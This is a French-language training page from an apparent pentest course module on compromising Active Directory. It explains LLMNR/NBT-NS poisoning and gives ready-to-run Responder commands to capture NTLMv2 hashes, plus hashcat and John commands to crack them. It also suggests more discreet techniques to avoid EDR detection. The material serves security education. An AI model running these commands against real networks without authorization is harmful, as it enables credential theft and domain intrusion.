

repository: VBlackJack/ShellBook · page: formations/windows-hacking-mastery/03-module/index.html · generator: mkdocs

---
tags:
  - formation
  - security
  - windows
  - hacking
  - active-directory
  - kerberos
  - kerberoasting
  - delegation
---

# Module 3 : Compromission Active Directory

Ce module couvre les techniques offensives pour obtenir un accès initial et compromettre un domaine Active Directory. Des attaques réseau (LLMNR Poisoning) aux abus Kerberos (Kerberoasting, Delegation), vous maîtriserez l'arsenal complet du pentester AD.

## Objectifs du Module

À la fin de ce module, vous serez capable de :

- Capturer des credentials via LLMNR/NBT-NS Poisoning
- Réaliser des attaques SMB Relay
- Effectuer du Password Spraying de manière sécurisée
- Exploiter Kerberoasting et AS-REP Roasting
- Comprendre et exploiter les différents types de delegation
- Abuser des relations de confiance entre domaines

**Durée estimée :** 7.5 heures
**Niveau :** Intermédiaire à Avancé

---

## 1. Initial Access - Attaques Réseau

### 1.1 LLMNR/NBT-NS Poisoning

**Concept :** Quand un hôte Windows ne peut pas résoudre un nom via DNS, il broadcast une requête LLMNR (Link-Local Multicast Name Resolution) ou NBT-NS (NetBIOS Name Service). Un attaquant peut répondre à ces requêtes et capturer des hashes NTLMv2.

```mermaid
sequenceDiagram
    participant V as Victime
    participant D as DNS Server
    participant A as Attaquant (Responder)

    V->>D: Résoudre "fileservr" (typo)
    D-->>V: NXDOMAIN (n'existe pas)
    V->>V: Broadcast LLMNR "fileservr"
    A->>V: "fileservr" c'est moi! (IP attaquant)
    V->>A: Connexion SMB + NTLMv2 Hash
    A-->>A: Hash capturé!
```

**Exploitation avec Responder :**

```bash
# Lancer Responder en mode capture
sudo responder -I eth0 -dwv

# Options importantes :
# -I : Interface réseau
# -d : DHCP poisoning (optionnel)
# -w : WPAD poisoning
# -v : Verbose

# Les hashes capturés sont stockés dans :
# /usr/share/responder/logs/
```

!!! warning "Détection"
    LLMNR Poisoning génère du trafic suspect. Les EDR modernes détectent Responder. En environnement réel, utilisez des techniques plus discrètes ou limitez la durée d'écoute.

**Cracking des hashes NTLMv2 :**

```bash
# Avec Hashcat (mode 5600 pour NTLMv2)
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt

# Avec John
john --format=netntlmv2 hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

# Règles pour améliorer le cracking
hashcat -m 5600 hash.txt rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```
